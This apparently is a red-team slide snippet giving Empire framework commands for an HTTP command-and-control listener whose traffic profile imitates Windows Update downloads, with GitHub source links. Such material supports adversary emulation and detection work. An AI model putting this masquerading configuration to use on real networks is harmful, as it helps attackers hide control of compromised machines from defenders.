

# Empire profiles
uselistener http
set Name microsoftupdate
set DefaultJitter 20
set DefaultDelay 6
set DefaultProfile /c/msdownload/update/others/2013/11/9946821_f5082b8340ec384b69f.cab|
Windows-Update-Agent/10.0.10011.16384 Client-Protocol/1.40|
Host:download.windowsupdate.com|Accept:*/*
set Headers Content-Type:application/vnd.ms-cab-compressed|Server:Microsoft-IIS/8.5|MSRegion:N. America|Connection:keep-alive|X-Powered-By:ASP.NET

Source:
https://github.com/infosecn1nja/e2modrewrite/blob/master/profiles/normal/microsoftupdate.profile

Setup database!:
https://github.com/EmpireProject/Empire/blob/293f06437520f4747e82e4486938b1a9074d3d51/setup/setup_database.py#L50